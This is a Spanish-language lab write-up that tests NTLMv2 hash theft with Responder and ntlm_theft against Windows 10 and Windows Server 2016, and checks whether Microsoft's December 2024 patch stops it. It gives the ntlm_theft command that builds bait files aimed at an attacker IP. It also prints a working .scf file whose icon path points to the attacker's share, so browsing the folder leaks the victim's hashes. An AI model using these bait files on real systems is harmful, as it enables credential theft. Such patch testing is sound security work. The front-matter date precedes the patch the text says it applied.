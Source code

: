 ```yaml
---
title: NTLMv2 Hashes Steal
author: 1
date: 2024-11-03
categories: [Cybersecurity, NTLM]
tags: [Hashes, Responder, Windows]
image: /assets/img/tareas/NTLM.jpg
---
```


Demostrar de manera práctica el funcionamiento del robo de hashes NTLMv2, mediante el uso de archivos modificados. Además, evaluaremos la efectividad del parche de seguridad lanzado por Microsoft en diciembre de 2024 para mitigar esta vulnerabilidad.

![Figura 1](/assets/img/tareas/NTLMv2/NTLM.jpg)

## Herramientas Utilizadas

- **Responder**: Permite interceptar y manipular solicitudes de autenticación en redes Windows.
- **ntlm_theft**: Genera archivos modificados que envían credenciales NTLM al atacante.

Uso básico:
```bash
python3 ntlm_theft.py -g modern -s 192.168.1.11 -f Important
```

![Figura 2](/assets/img/tareas/NTLMv2/1.png)

## Archivos Generados

```bash
❯ ls
Important-(externalcell).xlsx  Important-(icon).url
Important-(stylesheet).xml     Important.asx
Important.lnk                  Important.rtf
Important-(frameset).docx      Important-(includepicture).docx
Important-(url).url            Important.htm
Important.m3u                  Important.wax
Important-(fulldocx).xml       Important-(remotetemplate).docx
Important.application          Important.jnlp
Important.pdf
```

## Configuración del Entorno

Compartimos el archivo Excel con la máquina víctima y ejecutamos **Responder** en la máquina atacante.

![Figura 3](/assets/img/tareas/NTLMv2/2.png)

![Figura 4](/assets/img/tareas/NTLMv2/3.png)

![Figura 5](/assets/img/tareas/NTLMv2/4.png)

## Aplicación del Parche

Se aplicó el parche lanzado por Microsoft en diciembre de 2024 para Windows 10.

![Figura 6](/assets/img/tareas/NTLMv2/5.png)

Al probar nuevamente, la vulnerabilidad persiste al abrir el archivo Excel.

![Figura 7](/assets/img/tareas/NTLMv2/6.png)

## Windows Server 2016

En Windows Server 2016 probamos un archivo que no requiere ser abierto para explotar la vulnerabilidad.

```ini
[Shell]
Command=2
IconFile=\\192.168.1.11\tools\nc.ico
[Taskbar]
Command=ToggleDesktop
```

![Figura 8](/assets/img/tareas/NTLMv2/7.png)

Simplemente al acceder a la ruta del archivo, se capturan los hashes correspondientes.

![Figura 9](/assets/img/tareas/NTLMv2/8.png)

![Figura 10](/assets/img/tareas/NTLMv2/9.png)

## Instalación del Parche

Al intentar instalar manualmente el parche, se detecta que no es aplicable a Windows Server 2016.

![Figura 11](/assets/img/tareas/NTLMv2/10.png)

![Figura 12](/assets/img/tareas/NTLMv2/11.png)

## Conclusión del Laboratorio

Este laboratorio demostró que:

1. En **Windows 10**, incluso tras aplicar el parche, se pueden capturar hashes NTLM abriendo archivos modificados.
2. En **Windows Server 2016**, la vulnerabilidad persiste sin necesidad de abrir el archivo, y los parches de seguridad no son aplicables.

Esto resalta la importancia de evaluar constantemente las mitigaciones en entornos vulnerables.

![Figura 13](/assets/img/tareas/NTLMv2/12.png)

![Figura 14](/assets/img/tareas/NTLMv2/13.png)

![Figura 15](/assets/img/tareas/NTLMv2/14.png)

